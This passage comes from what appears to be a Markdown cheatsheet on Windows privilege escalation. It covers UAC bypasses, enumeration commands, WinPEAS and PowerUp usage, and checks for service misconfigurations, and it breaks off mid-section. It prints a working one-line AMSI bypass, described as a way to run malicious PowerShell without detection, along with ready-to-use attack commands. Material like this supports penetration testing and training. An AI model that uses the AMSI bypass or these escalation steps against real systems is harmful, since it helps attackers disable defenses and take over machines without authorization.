 Abusing legitimate Windows processes that are "auto-elevated" to execute malicious code without triggering a UAC prompt.

* **Tools:** The **UACME** project on GitHub is a massive collection of UAC bypass techniques.

---

#### **AMSI Bypass**

A **critical enabler**, not a privilege escalation technique. It's a method of disabling AMSI within a process so that malicious PowerShell commands can be run.

* **Example Bypass:**
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
    ```

***

### <a name="windows-privilege-escalation-comprehensive-cheatsheet"></a>Windows Privilege Escalation Comprehensive Cheatsheet

This cheatsheet provides a quick reference for common tools and commands used to identify and exploit privilege escalation vulnerabilities on Windows systems.

#### **1. Initial Enumeration & Situational Awareness**

**Always start here.**

* **Manual Enumeration Commands:**
    ```powershell
    whoami /all
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    tasklist /V
    sc query
    netstat -ano
    ```
* **Automated Enumeration Scripts:**
    ```powershell
    # WinPEAS
    .\winPEASx64.exe -quiet -outputfile report.txt
    # PowerUp.ps1
    powershell -ep bypass -c ". .\PowerUp.ps1; Invoke-AllChecks"
    ```

---

#### **2. Service Misconfigurations**

* **Unquoted Service Paths:**
    ```powershell
    wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\""
    ```
* **Weak Service Permissions:**
    ```powershell
    # Check permissions
    accesschk.exe /accepteula -uwcqv Users *
    # Reconfigure and restart